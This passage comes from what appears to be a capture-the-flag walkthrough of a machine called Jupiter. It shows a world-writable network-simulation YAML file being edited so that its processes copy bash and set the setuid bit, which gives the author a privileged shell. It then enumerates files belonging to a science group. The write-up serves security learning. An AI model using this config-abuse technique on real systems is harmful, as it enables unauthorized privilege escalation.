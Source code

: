 Which we have write access to
```bash
ls -la network-simulation.yml
-rw-rw-rw- 1 juno juno 815 Mar  7 12:28 network-simulation.yml
```

So after playing around for a while, tring to spin up revshells and the like, this is what ended up sticking, not that the folder when you put your bash needs to be writable by juno as well.
```yaml
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/cp
      args: /usr/bin/bash /tmp/blnkn/bash
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/chmod
      args: u+s /tmp/blnkn/bash
      start_time: 5s
```

## Exploiting the jupyter notebooks instance 

And we now have a shell as `juno`, dropping a pubkey and exploring further.  
He is part of a `science` group
```bash
juno@jupiter:/dev/shm$ id
uid=1000(juno) gid=1000(juno) groups=1000(juno),1001(science)
```

That group has access to stuff in `/opt`
```bash
find / -group science 2>/dev/null
/opt/solar-flares
/opt/solar-flares/flares.csv
/opt/solar-flares/xflares.csv
/opt/solar-flares/map.jpg
/opt/solar-flares/start.sh
/opt/solar-flares/logs
/opt/solar-flares/logs/jupyter-2023-03-10-25.log
/opt/solar-flares/logs/jupyter-2023-03-08-37.log
/opt/solar-flares/logs/jupyter-2023-03-08-38.log
/opt/solar-flares/logs/jupyter-2023-03-08-36.log
/opt/solar-flares/logs/jupyter-2023-03-09-11.log
/opt/solar-flares/logs/jupyter-2023-03-09-24.log
/opt/solar-flares/logs/jupyter-2023-03-08-14.log
```